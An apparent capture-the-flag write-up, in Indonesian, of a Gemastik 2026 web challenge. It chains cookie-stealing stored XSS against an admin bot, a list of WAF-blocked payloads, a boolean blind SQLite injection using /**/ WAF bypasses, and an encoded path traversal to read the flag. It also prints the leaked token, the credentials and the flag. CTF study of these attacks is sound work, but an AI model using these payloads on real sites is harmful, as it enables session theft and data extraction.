






# `BMN` — web

> 🏷️ **Challenge metadata**

|                  |                    |                |                        |
| ---------------- | ------------------ | -------------- | ---------------------- |
| 🏆 **Event**     | `Gemastik 2026`    | 📅 **Date**    | `2026-08-23`           |
| 🏷️ **Category** | `web`              | 💯 **Points**  | `498`                  |
| 🧑‍💻 **Team**    | `DOSCOM Zero Day Scholars` (x0rr-dan) | 🧩 **Solver** | [`solve.py`](solve.py) |

---

### 📝 Deskripsi Soal

> **Description dari panitia:**
>
> BMN: yok dep app
> dev: emangnya sudah di pentest?
> BMN: gas aja yang penting botnya udah jalan
> dev: awas akunmu
> provider account like kind of developer (keknya keluar pas wave 2)

**Connection info:** `http://15.232.64.175:13410`


---

### ⚔️ Exploitation

Login ke dashboard dulu buat explore. Mata langsung fokus ke fitur transfer sama dokumen. Sempat
ngehabisin waktu di fitur transfer yang kirain bakal IDOR, ternyata enggak, jadi fokus ke fitur
dokumen.


Baru sadar ada kolom status yang berubah otomatis: nunggu beberapa detik dia langsung `approved`.
Berarti ada mekanisme auto-approve dari sistem atau user lain (ada bot admin yang ninjau dokumen).
Kepikiran XSS buat curi cookie user lain.


**1. XSS bypass WAF (tag `details`).** Basic payload XSS kena 403. Payload yang kena blok:

```
<script>alert(1)</script>
javascript:

oneerror=   onload=   onfocus=   onclick=
<svg onload=>
<body onload>
document.cookie
```



Dari hasil fuzzing, tag `details` lolos WAF. Payload-nya ditaruh sebagai isi dokumen, pas bot admin
ninjau, `ontoggle` jalan dan cookie-nya dikirim ke webhook:



Hasilnya bocor `admin_token` di webhook.site:


```
admin_token=c18ab6435dd4141b246779795e7e9bd9
```

Tambahin value itu ke storage browser. Dashboard nggak berubah, tapi path `/admin` ternyata bisa
diakses.


**2. Blind SQL injection di `/admin/reset`.** Di `/admin` cuma ada input reset username. Fuzzing
pakai username ngawur, username valid, dan username + `'` buat lihat beda respon:

```
username=kuda                 -> {"status":"notfound"}   (user ga ada)
username=lemper               -> {"status":"ok"}         (user valid)
username=lemper'              -> {"status":"error"}      (SQL rusak -> injectable)
```

sqlmap konfirmasi boolean-based blind (SQLite), tapi WAF bikin 403 terus:



Vuln SQLi tapi perlu bypass WAF. sqlmap ribet + tamper script gagal, jadi manual. `OR 1=1` biasa
kena 403:



Separator yang lolos: `/**/`. Dengan `aaaa'/**/OR/**/1=1` lolos WAF (respon 200):


Karena boolean-based blind, brute-force dari panjang sampai isi data. Dari fitur reset pass tahu
username user provider tetap `provider`, jadi dump password-nya. Solver di [`solve.py`](solve.py):

```python
payload = f"nonexist'/**/OR/**/(unicode/**/(substr/**/(password,{position},1))={char_code}/**/AND/**/\"role\"='provider')/**/AND/**/'1'='1"
```

Hasil:

```
username: provider
password: pr0v1d3r_k3y_2n26
```



**3. Path traversal buat baca flag.** Login pakai kredensial `provider` tadi, masuk ke Portal
Provider:



Habis buka captcha di vault, bisa ke statement buat get `welcome.txt`. Dari request-nya ketahuan
path traversal:


`../../../flag` kena WAF, jadi di-encode:

```
..%2f..%2f..%2fflag
```

```
FLAG: GEMASTIK19{bmn_x55b0t_bl1ndsqli_p4thtr4v_w4fbyp455_cha1n3d}
```

---

### 🚩 Flag

```
GEMASTIK19{bmn_x55b0t_bl1ndsqli_p4thtr4v_w4fbyp455_cha1n3d}
```

### 🔗 Referensi

- PortSwigger — SQL Injection
- PortSwigger — Path Traversal
- PortSwigger — XSS
- HTML `details` tag
